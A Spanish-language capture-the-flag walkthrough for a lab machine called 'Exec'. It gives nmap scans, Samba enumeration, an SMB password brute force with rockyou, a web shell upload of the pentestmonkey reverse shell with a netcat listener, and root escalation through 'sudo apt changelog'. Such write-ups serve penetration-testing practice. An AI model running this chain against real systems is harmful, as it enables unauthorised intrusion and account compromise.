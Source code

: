 # Máquina Exec

### Reconocimiento de la Ip de la máquina víctima

![alt text](image.png)

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 192.168.42.148

![alt text](image-1.png)


### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80,139,445 vvv -Pn 192.168.42.148

![alt text](image-2.png)

### Explotación

Enumeramos samba:

enum4linux 192.168.42.148

![alt text](image-3.png)

Hacemos fuerza bruta:

sudo netexec smb 192.168.42.148 -u 's3cur4' -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding | grep -v "STATUS_LOGON_FAILURE"

![alt text](image-4.png)

Enumerar recursos compartidos para s3cur4:

smbmap -H 192.168.42.148 -u s3cur4 -p 123456

![alt text](image-5.png)

Entonces lo que vi fue que estamos conectados al servidor web y podemos subir archivos, por lo tanto subí una reverse shell cuyo código es de pentesteMonkey

![alt text](image-6.png)

nos ponemos en escucha con netcat y luego accedemos por url a la reverse shell :

![alt text](image-7.png)

![alt text](image-8.png)

### Escalar privilegios

![alt text](image-9.png)

luego ejecutamos:

sudo -u root /usr/bin/apt changelog apt

![alt text](image-10.png)

### user.txt

![alt text](image-11.png)

### root.txt

![alt text](image-12.png)
